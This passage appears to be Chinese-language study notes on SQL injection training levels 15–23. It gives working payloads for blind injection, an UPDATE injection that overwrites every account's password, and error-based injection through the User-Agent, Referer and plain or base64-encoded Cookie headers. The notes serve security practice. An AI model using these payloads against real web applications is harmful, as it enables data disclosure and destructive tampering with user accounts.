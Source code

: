 15-16
===
用户和密码均填入‘or 1=1#测试闭合方式
布尔注入和时间盲注

17修改密码（本题危害比较大）
===
```sql
猜测源码update users set password='$p' where username='$u'
用户            admin
密码框猜闭合    ' or 1=1 #
原理            update users set password='' or 1=1 #' where username='admin'
//会把数据库所有密码都改为1
update users set password=1
```

```sql
post data输入：uname=admin&passwd=pass'&submit=Submit

根据报错信息可知闭合是单引号
```

18-22http头注入
===
```sql
正常登录，观察信息,猜测源码
insert into 'security'.'某个表'(uagent,ipadd,username) values('浏览器信息','ip地址','用户名')
修改User-Agent
反斜杠得闭合
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1
报错注入
insert into 'security'.'某个表'(uagent,ipadd,username) values('' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1','ip地址','用户名')
```

19类似18，但是referer注入点
---
20cookie注入
---
cookie：uname=admin(账号)注入点；判断闭合后admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

21，22
---
cookie进行base64编码的

输入攻击语句之后，转化为base64encode即可

```sql
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
编码之后
YWRtaW4nKSBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBkYXRhYmFzZSgpKSwweDdlKSkgIw==
```

23#、-- +均被过滤
===
判断闭合后流程
